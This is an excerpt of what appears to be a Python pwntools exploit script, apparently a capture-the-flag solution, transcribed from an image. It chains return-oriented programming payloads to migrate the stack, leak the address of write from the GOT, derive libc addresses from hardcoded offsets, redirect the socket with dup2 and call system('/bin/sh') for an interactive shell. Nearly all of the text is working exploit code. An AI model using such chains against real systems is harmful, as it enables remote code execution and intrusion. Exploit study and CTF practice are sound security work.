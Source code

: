 ```python
        payload += p64(0)
        payload += p64(elf.symbols['read']) # read(6, buffer1, len)
        payload += p64(pop_rbp) # stack migration
        payload += p64(buf1-8)
        payload += p64(leave)
        r.send(payload)
        r.recvrepeat(0.5)

        payload = p64(pop_rdi)
        payload += p64(6)
        payload += p64(pop_rsi_r15)
        payload += p64(elf.got['write']) # leak write's GOT
        payload += p64(0)
        payload += p64(elf.symbols['write']) # write(6, write@got.plt, len)
        payload += p64(pop_rdi)
        payload += p64(6)
        payload += p64(pop_rsi_r15)
        payload += p64(buf2) # read the 3rd ROP chain to buffer2
        payload += p64(0)
        payload += p64(elf.symbols['read']) # read(6, buffer2, len) 
        payload += p64(pop_rbp) # stack migration
        payload += p64(buf2-8)
        payload += p64(leave)
        r.send(payload)
       
        write_addr = (u64(r.recv(6).ljust(8, "\x00")))
        log.success("write_addr: "+hex(write_addr))

        # thanks to libc database
        # offset_system = 0x0000000000046640
        # offset_dup2 = 0x00000000000ebfe0
        # offset_read = 0x00000000000eb800
        # offset_write = 0x00000000000eb860
        # offset_str_bin_sh = 0x17ccdb
        
        libc_base = write_addr - 0xeb860
        system_addr = libc_base + 0x46640
        dup2_addr = libc_base + 0xebfe0
        sh_addr = libc_base + 0x17ccdb
    
        log.success("libc_base: "+hex(libc_base))
        log.success("system_addr: "+hex(system_addr))
        log.success("dup2_addr: "+hex(dup2_addr))
        log.success("sh_addr: "+hex(sh_addr))
        
        payload = p64(pop_rdi)
        payload += p64(6)
        payload += p64(pop_rsi_r15)
        payload += p64(0)
        payload += p64(0)
        payload += p64(dup2_addr) # dup2(6, 0)
        payload += p64(pop_rdi)
        payload += p64(6)
        payload += p64(pop_rsi_r15)
        payload += p64(1)
        payload += p64(0)
        payload += p64(dup2_addr) # dup2(6, 1)
        payload += p64(pop_rdi)
        payload += p64(sh_addr)
        payload += p64(system_addr) #system("/bin/sh")
        r.send(payload)

        r.interactive()
```